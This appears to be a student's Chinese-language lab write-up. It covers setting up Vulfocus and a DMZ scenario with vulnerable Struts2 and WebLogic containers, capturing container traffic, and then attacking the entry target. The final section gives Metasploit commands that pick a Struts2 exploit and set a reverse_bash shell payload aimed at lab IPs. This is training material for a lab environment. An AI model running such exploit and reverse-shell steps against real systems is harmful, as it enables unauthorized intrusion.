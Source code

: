 # 网络空间安全实践
### vulfocus 环境搭建
#### docker安装
参考https://www.kali.org/docs/containers/installing-docker-on-kali/
![alt text](9f0946f209c0a0a861afc6a8cb638aa.png)
安装后输入
```
docker --version
```
命令查看docker版本
![alt text](ef616d2d1277b0db9fb1c9d924b0b37.png)

#### 拉取vulfocus镜像

在此运行拉取命令
```
docker pull vulfocus/vulfocus:latest
```
成功拉取。
![alt text](1742182423584.png)
使用bash start.sh命令运行容器启动后需要选择LOCAL_IP，直接默认回车使用NAT网络下IP地址，成功运行


接着使用主机浏览器访问虚拟机的ip进入vulfocus首页
![1742182557941](image/1/1742182557941.png)
完成vulfocus环境的搭建
## DMZ环境搭建
### 网卡创建
首先根据下面的步骤依次建立两个网卡,网卡的名称为DMA和核心网，不和虚拟机网卡重复即可已经有的重名网卡。需要进行删除![alt text](wk.png)![alt text](rm.png)
### DMZ场景编排
对 DMZ.zip解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

首先确定需要的镜像有哪些：
```
cat raw-content.json | jq . | grep image_name
```
可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
```
执行docker pull命令拉取镜像，然后再通过 Vulfocus 的 GUI 界面导入本地镜像
![1742183040177](image/1/1742183040177.png)
完成镜像拉取后，在环境编排管理页面中进行编排，详情如下：![alt text](hj.png)
需将第一个端口进行开放
![1742183192887](image/1/1742183192887.png)
完成后进行保存并发布，即可在环境中开始
![alt text](fb.png)
![alt text](yx.png)
将访问地址替换为虚拟机的ip即可进行web访问
![alt text](web.png)
### 流量捕获
在启动了场景之后，可以通过下面的命令开启对 struts2-cve_2020_17530的流量捕获
```
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
该命令在当前路径下创建了一个 tcpdump目录，并且将对指定容器监控的流量捕获到目录中
## DMZ入口标靶
入口靶标页面如下，记录目标 ip 和端口号
![alt text](web-1.png)
192.168.37.5 端口号 30667
进入攻击机，更新并初始化 metasploit
```
sudo apt install -y metasploit-framework
sudo msfdb init
```
![alt text](ini.png)
由于已经知道了漏洞为 struts2代码执行漏洞，所以进行相关搜索搜索：
```
search struts2 type:exploit
search S2-059 type:exploit
```
![alt text](search1.png)![alt text](search.png)
使用 info可以指定序号或名称查看详情
```
info 0
```
使用 use可以使用指定的exp
```
use 0
```
使用 show options可以查看exp的详细参数配置,使用 show payloads可以查看可用 exp payloads：
```
show options
show payloads
```
![alt text](pay.png)
![alt text](<use option.png>)
选择一个需要的 payload使用并根据参数列表的内容修改靶机和攻击机的参数
```
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.37.5  #靶机IP
set RPORT  30667   #靶机目标端口  
set LHOST  192.168.131.6   #攻击者主机IP 
```